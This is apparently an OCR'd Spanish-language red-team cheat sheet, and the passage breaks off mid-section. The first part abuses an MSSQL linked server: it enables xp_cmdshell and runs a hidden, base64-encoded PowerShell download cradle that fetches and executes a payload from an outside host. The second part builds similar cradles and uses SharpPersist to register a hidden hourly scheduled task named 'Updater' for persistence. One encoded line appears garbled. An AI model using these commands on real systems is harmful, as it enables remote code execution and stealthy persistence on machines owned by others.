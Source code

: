 
#### RPC OUT
```mssql

# Enabling xp_cmdshell
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql.rto.external]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql.rto.external]

# Revshell

EXECUTE('EXEC xp_cmdshell ''hostname && whoami'';') AT [sql.rto.external]

EXECUTE('EXEC xp_cmdshell ''powershell -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADIAMwAuADUANQA6ADgAMAA4ADAALwBiACIAKQApAAoA'';') AT [sql.rto.external]


```


---


### Persistencia con SharpPersist 🧲
tag: #persist 
El programador de tareas de windows nos permite crear "tareas" que se ejecutan con un 'disparador' predeterminado, ese evento podria ser una hora del dia, o la sesion de inicio de algun usuario

##### Creando Tarea Programada
**En Linux**
```bash
root@kali:~# str='IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))' 
root@kali:~# echo -en $str | iconv -t UTF-16LE | base64 -w 0 
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAAh=AKADAAL
```

**En Windows**

```batch
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
```

Creando una tarea programada en sharpersist
```java
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
```

Donde:

